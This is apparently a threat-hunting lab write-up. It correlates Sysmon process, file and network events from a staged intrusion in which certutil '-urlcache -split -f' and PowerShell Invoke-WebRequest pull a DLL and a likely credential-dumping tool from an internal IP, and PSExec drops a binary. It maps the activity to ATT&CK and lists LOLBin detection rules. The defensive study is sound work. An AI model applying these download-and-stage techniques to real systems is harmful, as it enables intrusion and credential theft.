

From the EID 1 events captured during payload delivery, I extracted the cryptographic hashes of the binaries actually executing the staging commands — specifically to verify they were the genuine, unmodified Microsoft binaries rather than a malicious replacement masquerading under the same filename.

| Process | Tactical Action |
|---|---|
| `powershell.exe` | Submit hash to VirusTotal — confirms standard LOLBin abuse of a legitimate Microsoft binary rather than a replaced malicious one |
| `certutil.exe` | Submit hash to VirusTotal — confirms the trusted native Windows certificate utility is genuinely what's being abused here |

## Three-Layer Correlation Summary

| IOC | EID 1 (Process Creation) | EID 11 (File Create) | EID 3 (Network Connection) |
|---|---|---|---|
| `dghelper.dll` staging | `powershell.exe` executed with `Invoke-WebRequest` target URL | `.dll` written to `C:\Windows\SysWOW64\` by `powershell.exe` | Outbound TCP connection to `192.168.7.250:80` by `powershell.exe` |
| `mimi.exe` staging | `certutil.exe` executed with `-urlcache -split -f` | Two `.exe` writes — temporary `INetCache` copy and final target path, both by `certutil.exe` | Outbound TCP connection to `192.168.7.250:80` by `certutil.exe` |
| `MyMVPfXG.exe` drop (PSExec) | Not directly visible as process creation here — service execution surfaces separately | `.exe` written directly to `C:\Windows\` by `System` (PID 4) | Not captured — SMB traffic over port 445 is excluded from this Sysmon configuration's EID 3 |

**The lesson this table makes concrete:** no single layer captured all three transfers. The PSExec binary drop is invisible at the network layer in this configuration because SMB traffic is filtered out of EID 3 — but it's fully visible at the file system layer. The PowerShell and certutil downloads are visible at all three layers simultaneously. This is the direct, evidence-backed argument for why I hunt across multiple telemetry sources rather than picking one and trusting it to be sufficient.

## ATT&CK Mapping

| Tactic | Technique | ID |
|---|---|---|
| Command & Control | Ingress Tool Transfer | T1105 |
| Execution | Command and Scripting Interpreter: PowerShell | T1059.001 |
| Execution | Command and Scripting Interpreter: Windows Command Shell | T1059.003 |
| Defense Evasion | System Binary Proxy Execution | T1218 |
| Defense Evasion | Masquerading: Match Legitimate Name or Location | T1036.005 |
| Credential Access | OS Credential Dumping: SAM | T1003.002 |

## Detection Opportunities

- **High:** `certutil.exe` with `urlcache` or `http` in the command line — near-zero legitimate use cases in most enterprise environments
- **High:** Any LOLBin (`certutil`, `bitsadmin`, `msiexec`) initiating outbound HTTP connections to raw IP addresses rather than domain names
- **High:** `powershell.exe` writing `.dll` or `.exe` files directly to `System32`, `SysWOW64`, or `C:\Windows\`
- **Medium:** `Invoke-WebRequest` or `WebClient` in PowerShell command lines where the URI target is a raw IP address
- **Medium:** Sysmon EID 11 showing `.exe` files written to `C:\Windows\` by `System` (PID 4) — a strong SMB file-drop indicator
- **Hunt regularly:** aggregate Sysmon EID 11 by `Image` to surface unexpected file-writing processes — `certutil` and `powershell` appearing in this list at all warrants immediate follow-up
- **Enrich:** cross-reference every discovered destination IP against threat intel feeds and reverse DNS as standard practice, not an optional step

## What I Took Away From This Hunt

- **The three-layer correlation table is the single most important artifact of this entire hunt.** It's not a summary for its own sake — it's direct proof that hunting only the network layer in this exact environment would have missed the PSExec binary drop entirely, because SMB traffic was excluded from EID 3 by Sysmon's own tuning. That's not a hypothetical risk I'm describing; it's something I confirmed happened in my own dataset.
- **Certutil's double HTTP request and double file write are independent, corroborating fingerprints of the same behavior** — one visible at the network layer, one at the file system layer. Recognizing both meant I didn't need to rely on either one alone to build confidence in the finding.
- **A well-tuned Sysmon configuration is a double-edged tool, and I saw both edges in the same hunt.** It successfully filtered out the overwhelming majority of legitimate network noise (down to three events from what would otherwise be a constant stream), but that same tuning is what hid the SMB-based file drop from the network layer entirely. Knowing what your specific configuration excludes, and why, is as important as knowing what it captures.
- **Every confirmed IOC — a filename, an IP, a hash — became a pivot, and I used each one deliberately rather than stopping at the first hunt that returned a result.** That's the actual difference between finding one malicious event and scoping an intrusion: the second requires treating every finding as a new starting point, not an endpoint.

---

**Next:** [Hunting Lateral Movement →](../06-hunting-lateral-movement/README.md)
